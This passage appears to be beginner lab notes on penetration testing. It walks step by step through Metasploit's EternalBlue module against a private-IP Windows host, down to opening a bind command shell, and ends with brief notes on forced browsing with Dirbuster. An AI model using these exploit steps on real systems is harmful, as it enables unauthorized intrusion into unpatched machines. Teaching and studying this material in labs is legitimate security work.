 ```bash
use exploit/windows/smb/ms17_010_eternalblue
```

This will set up the exploit. From here you can view the options:

```bash
show options
```

It will list all of the options, their current values and whether they are required for the exploit. One required option will be missing, `RHOST`. Set this to the target server with the following command:

```bash
set RHOST 10.0.6.46
```

Now we will need to select the payload. The exploit will get us access to the system, but we will need to execute something while we are there. You can view all of the available payloads for the exploit using:

```bash
show payloads
```

I wanted access to a command shell, so I used the following command to select it:

```bash
set payload generic/shell_bind_tcp
```

If this exploit supported checking, we could have ran a command that would have checked if it would be successful. The command would have been:

```bash
check
```

If it is attempted with the current exploit and payload, it will just display `This module does not support check`.

To execute the exploit, you can run either of these two commands:

* The normal, less to type way `run`
* The cooler sounding way `exploit`

There will be a lot of output, but if it was successful typing `dir` and pressing enter should display the directory on the Windows machine. There you have it, you are officially a `H A C K E R  M A N`.

### Web 101

Forced browsing:

* Some good options:
  - Dirbuster: not too great
    - Available on Kali.
    - Wordlist location in kali is `/usr/share/wordlists`.

Don't leak info:
